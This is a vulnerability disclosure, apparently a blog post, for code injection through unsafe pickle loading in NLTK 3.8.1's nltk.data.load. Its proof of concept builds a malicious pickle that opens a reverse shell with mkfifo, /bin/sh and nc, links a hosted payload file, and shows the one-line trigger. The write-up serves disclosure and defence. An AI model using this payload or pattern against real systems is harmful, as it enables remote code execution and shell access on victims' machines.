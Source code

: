 ```yaml
---
layout: post
title:  "Command injection via unsafe pickle.loads in nltk.data.load in NLTK"
date:  2024-06-28 10:31:06 +0800
categories: command-injection
---
```


## Name

> Command injection via unsafe pickle.loads in nltk.data.load

## Weakness

> CWE-94: Code Injection

## Severity

> High (8.8)

## Version

> 3.8.1

## Description

The NLTK api [`nltk.data.load`](https://www.nltk.org/api/nltk.data.html?highlight=load#nltk.data.load) is used to load a given resource from the NLTK data package, and it supports load pickle packages from remote sources. However, after the pickle file is downloaded, it uses `pickle.load` method to load the file which causing a malicious pickle file executing arbitrary code on victim's mechine.

The vulnerable function: [`nltk.data.load`](https://github.com/nltk/nltk/blob/8c233dc585b91c7a0c58f96a9d99244a379740d5/nltk/data.py#L754)

```
def load(
    resource_url,
    format="auto",
    cache=True,
    verbose=False,
    logic_parser=None,
    fstruct_reader=None,
    encoding=None,
):
    
    resource_url = normalize_resource_url(resource_url)
    resource_url = add_py3_data(resource_url)

    ...
    # Load the resource.
    opened_resource = _open(resource_url)

    if format == "raw":
        resource_val = opened_resource.read()
    elif format == "pickle":
        # vulnerable to code execution attacks !!!!!
        resource_val = pickle.load(opened_resource)
    elif format == "json":
    ...
```

## Proof of Concept

Firstly, create a malicious pickle file and upload to github.

### `payload.pickle`

Use following snippets to create a malicous pickle payload:

```
import pickle
import os

class RCE:
    def __reduce__(self):
        cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | '
               '/bin/sh -i 2>&1 | nc 127.0.0.1 1234 > /tmp/f')
        return os.system, (cmd,)

with open('payload.py.debug_pkl', 'wb') as f:
    pickle.dump(RCE(), f)
```

I have uploaded the [`payload.pickle`](https://raw.githubusercontent.com/sunriseXu/onnx/main/payload.pickle) to github for testing.


## Start attack

Install latest NLTK:

```
pip install nltk
```

Use following snippets to trigger the unsafe `pickle.loads` command injection:

```
from nltk.data import load
load("https://raw.githubusercontent.com/sunriseXu/onnx/main/payload.pickle")
```

After the command executed, we can check the `/tmp/f` file is created.

```
> ls -la /tmp/f
prw-r--r-- 1 kali kali 0 Jun 24 19:48 /tmp/f
```
## Colab

Tested on google colab: [https://colab.research.google.com/drive/160HoB0-PdFqOzBoUch7hj3n9olm2sfS1?usp=sharing](https://colab.research.google.com/drive/160HoB0-PdFqOzBoUch7hj3n9olm2sfS1?usp=sharing)

![image](http://live.staticflickr.com/65535/53820920049_03d7b6ff6e_h.jpg)

## Impact

This vulnerability can have severe consequences. If victims load a malicious pickle file from remote sources using `nltk.data.load`, command injection can be achieved.


## Occurrences

[nltk.data.load#L754](https://github.com/nltk/nltk/blob/8c233dc585b91c7a0c58f96a9d99244a379740d5/nltk/data.py#L754)

